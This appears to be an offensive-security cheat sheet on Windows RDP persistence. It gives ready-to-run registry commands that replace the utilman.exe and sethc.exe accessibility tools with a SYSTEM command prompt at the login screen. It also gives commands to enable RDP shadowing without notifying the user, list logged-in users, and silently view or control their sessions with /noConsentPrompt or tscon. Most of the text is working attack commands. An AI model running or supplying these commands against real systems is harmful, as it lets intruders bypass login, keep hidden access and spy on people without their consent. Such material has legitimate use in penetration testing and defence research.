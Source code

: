 # RDP - Persistence

## RDP Backdoor

An RDP backdoor is a malicious technique where an attacker replaces the legitimate binary files of utility manager (utilman.exe) or sticky keys (sethc.exe) with a command prompt (cmd.exe) executable. This allows the attacker to gain unauthorized access to the system by launching a command prompt when the ease of access or sticky keys button is pressed on the login screen, bypassing the need for authentic credentials.

### utilman.exe

At the login screen, press Windows Key+U, and you get a cmd.exe window as SYSTEM.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

### sethc.exe

Hit F5 a bunch of times when you are at the RDP login screen.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

## RDP Shadowing

RDP shadowing is a feature of Remote Desktop Protocol (RDP) that allows a remote user to view or control another user's active RDP session on a Windows computer. This feature is typically used for remote assistance, training, or collaboration purposes, allowing one user to observe or take control of another user's desktop, applications, and input devices as if they were physically present at the computer.

**Requirements**

* `TermService` must be running

    ```ps1
    sc.exe \\MYSERVER query TermService
    sc.exe \\MYSERVER start TermService
    ```

* `SYSTEM` privilege or the account's password

**Enable RDP Shadowing**

Shadow Remote Desktop Session can be enabled by editing the `HKLM\Software\Policies\Microsoft\Windows NT\Terminal Services` registry key.

| Value | Name                  | Description |
| ----- | --------------------- | --- |
|   0   | Disable               | Remote control is disabled. |
|   1   | EnableInputNotify     | The user of remote control has full control of the user's session, with the user's permission. |
|   2   | EnableInputNoNotify   | The user of remote control has full control of the user's session; the user's permission is not required. |
|   3   | EnableNoInputNotify   | The user of remote control can view the session remotely, with the user's permission; the remote user cannot actively control the session. |
|   4   | EnableNoInputNoNotify | The user of remote control can view the session remotely, but not actively control the session; the user's permission is not required. |

Usually you want to be able to see and interact with the Remote Desktop: option 2 `EnableInputNoNotify`.

```ps1
reg.exe query "\\MYSERVER\HKLM\Software\Policies\Microsoft\Windows NT\Terminal Services" /V Shadow
reg.exe add "\\MYSERVER\HKLM\Software\Policies\Microsoft\Windows NT\Terminal Services" /V Shadow /T REG_DWORD /D 2 /F
```

If you encounter any trouble with the network, enable the `Remote Desktop - Shadow (TCP-In)` firewall rule.

```ps1
$so = New-CimSessionOption -Protocol Dcom
$s = New-CimSession -ComputerName MYSERVER -SessionOption $so
$fwrule = Get-CimInstance -Namespace ROOT\StandardCimv2 -ClassName MSFT_NetFirewallRule -Filter 'DisplayName="Remote Desktop - Shadow (TCP-In)"' -CimSession $s
$fwrule | Invoke-CimMethod -MethodName Enable
```

**Enumerate active users**

Query to enumerate active users on the machine.

```ps1
quser.exe /SERVER:MYSERVER
query.exe user /server:MYSERVER
qwinsta.exe /server:MYSERVER
```

**Use the shadow mode**

Use the `noConsentPrompt` parameter and specify the session ID obtained from the previous command.

```ps1
MSTSC [/v:<server[:port]>] /shadow:<sessionID> [/control] [/noConsentPrompt]
mstsc /v:SRV2016 /shadow:1 /noConsentPrompt
mstsc /v:SRV2016 /shadow:1 /noConsentPrompt /control
```

On older version you have to use  `tscon.exe` instead.

```ps1
psexec -s cmd
cmd /k tscon 2 /dest:console
```

## References

* [Spying on users using Remote Desktop Shadowing - Living off the Land - Mar 26, 2021 - @bitsadmin](https://blog.bitsadmin.com/spying-on-users-using-rdp-shadowing)
* [RDP Hijacking for Lateral Movement with tscon - ired.team - 2019](https://www.ired.team/offensive-security/lateral-movement/t1076-rdp-hijacking-for-lateral-movement)
